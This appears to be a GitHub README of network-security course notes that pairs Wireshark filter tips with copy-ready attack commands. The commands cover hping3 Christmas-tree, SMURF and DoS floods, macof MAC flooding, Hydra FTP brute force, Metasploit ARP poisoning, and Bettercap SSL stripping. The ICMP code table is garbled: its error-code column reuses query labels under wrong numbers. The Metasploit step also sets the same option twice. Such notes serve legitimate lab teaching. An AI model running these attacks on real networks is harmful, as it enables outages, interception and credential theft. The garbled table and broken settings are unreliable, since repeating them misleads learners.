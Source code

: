 **Instructor: Dimitris Amprazis**

#### Types of Attacks:
1. [ARP Cache Poisoning / Spoofing](#arp-cache-poisoning--spoofing-w-metasploit)
1. [SMURF Attack / ICMP Flooding / IP Spoofing](#hping-commands)
1. [Denial of Service / DoS Attack](#hydra-command)
1. [Christmas Tree Attack](#hping-commands)
1. [Brute Force Attack](#hydra-command)
1. [MAC Flooding](#macof-commands)
1. [SSL Stripping](#ssl-stripping)

---

#### Wireshark Utils:
- Comparison: 
    - source ip filter: `ip.src==216.58.198.14`
    - destination ip filter: `ip.dst==192.168.1.49`
    - `tcp.port eq 80`
    - `ip.dst != 192.168.1.1`
- Boolean filter: `http||arp`
- Boolean & Comparison filter combination: `http&&ip.src==95.100.242.40`
- Filter lost TCP Segment filter: `tcp.analysis.lost_segment`
- Filter TCP latency above n second: `tcp.time_delta > n`
- Filter Retransmitted TCP Segment: `tcp.analysis.retransmission`
- Filter a frame that contains a specific text: `frame contains username123`
- Show suspicious traffic (if any): `Analyze > Expert Information > Severity:Warning`
- Filter Specific http methods: `http.request.method==POST`
- Filter all FTP Traffic: `ftp.request.command` 
- Filter all FTP Data Traffic: `ftp-data` 
- Filter all Telnet Traffic: `telnet` 
- Filter all SMTP Traffic: `smtp` 
- Filter all DNS Traffic: `dns` 
- Filter DNS Query Answers more than 4:
  > `dns.count.answers > 4` 
  > 
  > This is used for inspecting whether any zombie is present in a network and trying to connect to a C2 server, so on DNS resolving and an answer more than 4 we can suspect it to be a malicious url.
  >
  > Also using the PDU Hierarchical Viewer and under "**Domain Name System (response)**" for a selected DNS response packet we can see the field "**Answer RRs**" that shows the DNS Query Answers returned.
- View Protocol Hierarchy: 
  > `Statistics > Protocol Hierarchy`
  >
  > The above window shows a list of protocols that has been used to communicate.
  >
  > Mostly this is used to find any suspicious traffic especially in the TCP section when the segment is shown as **"Data"**.
  >
  > Wireshark does it because it doesn't what kind of payload is present inside its PDU(there could be false +ves).
- Filtering capture before scanning:
  > NOTE: The following steps might vary for every protocol but the procedure remains the same.
  - `Capture > Capture Filters >` Press <kbd>+</kbd> `> [SET THE NAME AND FILTER]`
  - `[INTERFACE SELECTION WINDOW] > [PRESS GREEN BOOKMARK BUTTON AND SELECT THE CREATED FILTER] > [DOUBLE CLICK INTERFACE]`
- Insert a key to decrypt captured packets: `Edit > Preferences > Protocols > [SELECT SPECIFIC PROTOCOL] > Decryption Keys [EDIT] >` Press <kbd>+</kbd> ` > [ADD KEY TYPE AND KEY]`. 
- Extract a binary file from TCP Stream:
  - `Right click contextual data packet from capture window > Follow > TCP Stream`
  - `Show and save data as > Raw > Save as`
- Kerberos Misc:
  - Filter user account names: `kerberos.CNameString and !(kerberos.CNameString contains $)`
  - View domain name: `PDU Hierarchical Viewer > Kerberos > as-req > req-body > cname > realm`
- List HTTP Objects: `File > Export Objects > HTTP`

---

#### Network Utilities:
- `netstat` - Print network connections, routing tables, interface stats, masquerade connections, multicast memberships
- `ss` - utility to investigate sockets

---

#### ICMP / Ping / Host Discovery Utils:

  > **NOTE**:
  > - ICMP Payload size is 32 Bytes
  > - ICMP MTU is 1472 bytes. Beyond that packet is fragmented

  - **Ping Util**:
    > **Normal Ping Requests** - `ping 192.168.1.2`
    >
    > **Ping Requests with hostname resolution** - `ping -a 192.168.1.2`
    >
    > **Ping n number of packets** - `ping -n 8 192.168.1.2`
    >
    > **Fragment Ping packet** - `ping -l 33 192.168.1.2`
    >
    > **Netdiscover Ping Scan** - `netdiscover [-i <interface> [-r <ip_range>]]`

  - **ICMP Codes**:

    | Query Codes                       |      Error Codes                  |
    |-----------------------------------|-----------------------------------|
    | **Type 0** - Echo Reply           | **Type 3** - Echo Reply           |
    | **Type 8** - Echo Request         | **Type 4** - Echo Request         |
    | **Type 9** - Router Advertisement | **Type 5** - Router Advertisement |
    | **Type 10** - Router Solicitation | **Type 11** - Router Solicitation |
    | **Type 13** - Timestamp Request   | **Type 12** - Timestamp Request   |
    | **Type 14** - Timestamp Reply

---

#### Hping Commands:

- Perform Christmas Tree Attack:
  > \> `hping3 <victim's_ip> --flood --rand-source --destport 80 -c 25000 --syn --ack --fin --rst --push --urg --xmas --ymas`

- Perform SMURF Attack / ICMP Flooding:
  > \> `hping3 --icmp --flood -a <spoofed_victim's_ip> <broadcast_ip>`

- Perform Denial of Service / DoS Attack:
  > \> `hping3 -c <no_of_packets_to_send> -d <packet_size> -S -w <tcp_window_size> -p <port_no> --flood --randsource <target's_ip>`

---

#### macof Commands:
- Simple MAC Flooding: `macof -i <interface_name> [-n <int>]`
- Targeted MAC Flooding: `macof -i <interface_name> -d <target's_ip>`

---

#### Hydra Command:
- Perform Brute force on FTP:
  > `hydra -L <username_lists.txt> -P <passwd_lists.txt> [-vV] <target's_ip> ftp`

---

#### ARP Cache Poisoning / Spoofing (/w Metasploit):

- use the following aux module:
  >msf > `use auxiliary/spoof/arp/arp_poisoning`

- set the **target's** & **gateway's** ip address:
  >msf > `set DHOSTS <target's_ip>`
  >
  >msf > `set DHOSTS <gateway's_ip>`

- run the command:
  >msf > `exploit`

---

#### SSL Stripping (/w Bettercap):
> AKA SSL downgrade or HTTP downgrade attacks which is a type of cyber attack where hackers downgrade a web connection from the more secure **HTTPS** to the less secure **HTTP**. This makes all communications unencrypted and sets the stage for a man-in-the-middle attack, in which the hacker sits in the middle of a conversation listening or intercepting information.

To perform SSL Stripping we'll be using **Bettercap** as follows:
> $ `bettercap -iface eth0`
>
> \>\> `set http.proxy.sslstrip true`
>
> \>\> `set net.probe on`
>
> \>\> `set net.sniff on`
>
> \>\> `arp.spoof on`

> **NOTE: SSL Stripping won't work on cached URLs, and when HSTS is enabled**

---

#### Extras:
- Tor Communcations can't be monitored in Wireshark instead we can use **[NetworkMiner](https://www.netresec.com/?page=NetworkMiner)**. Also the capture data shown is much more jargonless.
